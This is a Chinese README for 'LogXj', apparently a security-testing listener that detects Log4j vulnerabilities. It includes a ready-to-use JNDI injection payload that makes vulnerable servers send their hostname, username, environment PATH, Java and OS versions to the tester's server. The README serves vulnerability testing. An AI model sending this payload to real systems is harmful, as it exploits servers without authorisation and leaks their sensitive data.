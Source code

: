 ## 简介

- 用于探测Log4j漏洞, 将它POC的威力最大化, POC验证成功后会立即收到目标机器的系统主机名、时间、版本号、用户名、环境变量以及Log4j路径、java版本号、中间件信息等信息.

## 灵感来源

- 由于不能第一时间立刻知道某应用系统整个组件调用链、数据传输链、系统调用链中是否存在Log4j漏洞，因此经常需要黑盒测试来fuzzing。可以利用存在漏洞的Log4j组件会向攻击者指定的dns服务端发起域名解析请求的特性判断漏洞的存在，但是内网不一定存在dns服务器，即使存在也不一定配置了dns服务器，即使配置了但是通过dnslog这类平台也无法知道是内网中的哪台机器存在漏洞，即使知道了也不确定是那台机器上的哪个web应用存在漏洞，用的是哪个版本的java环境以及哪个中间件。
- 根据自己以上种种痛点写了这个小工具，提高挖洞效率，顺便开源出来。

## 作用

- 监听端口, 等待猎物，被动式发现存在Log4j漏洞的机器.
- 最大化了POC的威力: 可以获取目前机器的系统时间、主机名、Log4j路径、系统版本号、java版本号、系统用户名、中间件信息（含物理路径）、环境变量等敏感信息.
- 功能超越了dnslog和ncat.
- 时刻监听同一端口, 可不限制地接收多个目标传输过来的漏洞信息.
- 收到漏洞信息后立即断开, 避免占用目标的程序线程和网络连接.
- 记录历史, 保存漏洞信息.

## 优点

- 代码开源, 安全可控.
- 不依赖第三方库.
- 跨平台.
- 解决了内网环境没有dns服务器、不通dnslog等问题.
- 解决了内网环境无法下载ncat的问题.
- 解决了ncat命令过于冗余的问题.
- 解决了ncat监听模式下需要频繁ctrl+c才能终止OOB连接的问题.
- 兼容Python2和Python3.
- 解决了fuzzing工程师不清楚fuzzing成功了哪台目标机器的问题.
- 解决了fuzzing工程师不清楚fuzzing成功了目标机器上的哪个web应用的问题.

## 用法

1. 找一台服务器，搭建```LogXj安全服务端```, 命令如下:
```
python logxj.py
```

2. 以下是我构造的```LOGXJ POC```，需要先手动把里面的```LOGXJ_SERVER```替换为```LogXj安全服务端的IP```，然后把它发送给使用了log4j的目标: 
```shell
${jndi:ldap://LOGXJ_SERVER:4444/\nFound Log4j vuln!\nDate\t:${date:yyyy-MM-dd HH:mm:ss}\nHostname:${hostName}\nConf dir:${log4j:configLocation:-}\nOs ver\t:${java:os}\nJava ver:${java:version}\nUser\t:${env:USER:-}${env:USERNAME:-}\nIsTomcat:${env:CATALINA_BASE:-False}\nPATH\t:${env:PATH:-}\n\nEnd}
```

3. 此时观察```LogXj安全服务端```的控制台:
- 若收到请求, 则说明目标存在log4j漏洞.
- 若无, 则说明可能暂无风险. 并且可以进一步代码审计确认是否真的无风险.
